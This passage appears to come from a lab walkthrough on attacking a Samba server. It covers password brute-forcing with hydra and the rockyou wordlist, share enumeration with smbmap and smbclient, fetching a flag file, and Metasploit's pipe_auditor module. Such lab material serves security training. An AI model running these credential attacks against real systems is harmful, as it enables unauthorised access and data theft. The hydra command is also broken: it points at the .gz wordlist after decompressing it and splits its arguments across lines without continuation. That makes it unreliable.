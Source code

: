 2. What is the password of user “admin” required to access share “admin”? 

*Use hydra with password wordlist: /usr/share/wordlists/rockyou.txt*

```shell
# The command gzip -d /usr/share/wordlists/rockyou.txt.gz decompresses the rockyou.txt.gz file, extracting the plain text password list from its compressed .gz format for use in password attacks or brute-force tools.
gzip -d /usr/share/wordlists/rockyou.txt.gz

# Use Hydra
hydra 
-l admin 
-P /usr/share/wordlists/rockyou.txt.gz
<target_IP> 
smb
```

3. Which share is read only? Use smbmap with credentials obtained in question 2.

```shell
smbmap
smbmap -u <username> -p <password> -H <target_IP>
```

4. Is share “jane” browseable? Use credentials obtained from the 1st question.

```shell
smbclient -L <target_IP> -U jane
# Share "jane" is not listed. Checking whether jane share exists:
smbclient //<target_IP>/jane -U jane
# Share “Jane” exists but is not browsable.
```

5. Fetch the flag from share “admin”

```shell
smbclient //<target_IP>/admin -U admin
ls
cd hidden
ls
get flag.tar.gz
exit
tar -xf flag.tar.gz
cat flag
```

6. List the named pipes available over SMB on the samba server? Use pipe_auditor metasploit module with credentials obtained from question 2.

```shell
use auxiliary/scanner/smb/pipe_auditor
set RHOSTS <target_IP>
set SMBUser <username>
set SMBPass <password>
exploit
```
